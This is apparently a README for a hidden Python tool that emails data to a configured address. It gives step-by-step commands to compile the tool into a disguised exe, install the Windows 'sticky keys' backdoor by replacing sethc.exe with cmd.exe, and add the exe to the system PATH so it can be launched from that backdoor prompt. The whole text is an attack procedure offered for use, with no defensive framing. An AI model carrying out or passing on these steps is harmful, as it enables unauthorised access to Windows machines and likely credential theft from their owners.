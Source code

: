 Requirement: Python3.x installed

Link download Python: https://www.python.org/downloads/

-----------------------------------------------------------------------------------------

*Setup:

------------------------------ STAGE 1: Create file .exe --------------------------------

1) Edit MyAddr, MyPass, ToAddr in "Run.py" before using

2) Press Win+R to open Run box, type "cmd" without quote and press Enter

3) Write this command to the command prompt:
		
		pip install pyinstaller 
		
4) After successfully installed pyinstaller, type 

		cd path
		
	which path is a folder contains "Run.py"
	
	For example, I put "Run.py" in a folder's name "PassCh" in C: --> the command will be:

		cd C:\PassCh
		
5) Type this command and wait until it's done: 

		pyinstaller --onefile Run.py
		
6) After it's done, there'll be several folder, go to "dist" folder, rename "Run.exe" into whatever you like and copy to everywhere you find it secret

------------------------------ STAGE 2: "Stick key" trick -------------------------------

* First case: You can boot into your system

1) Open Command Prompt with administrator privilledge

2) Enter as following

		copy c:\windows\system32\sethc.exe c:\
		
		copy /y c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe

	If there has a file named "sethc - Copy.exe", it means you're doing right

3) Press SHIFT 5 times and the Command Prompt will pop up

----------------------------- STAGE 3: Add folder to path -------------------------------

1) Type as follow into Command Prompt

		setx /M path "%path%;<DirectoryFolder>"
		
	Which <DirectoryFolder> will be the permanent path to folder contains .exe file in stage 1
	
	Ex: I renamed "Run.exe" into "Email.exe" and moved to C:\MySecret
	
		-> setx /M path "%path%;C:\MySecret"
		
--------------------- STAGE 4: Using "Stick key" trick to run .exe ----------------------

1) Press SHIFT 5 times and the Command Prompt will pop up

2) Type the name of .exe file you have renamed

	Ex: In stage 3, the file's name is "Email.exe"
		
		-> Email
		
	or
	
		-> email
		
	It is non case sensitive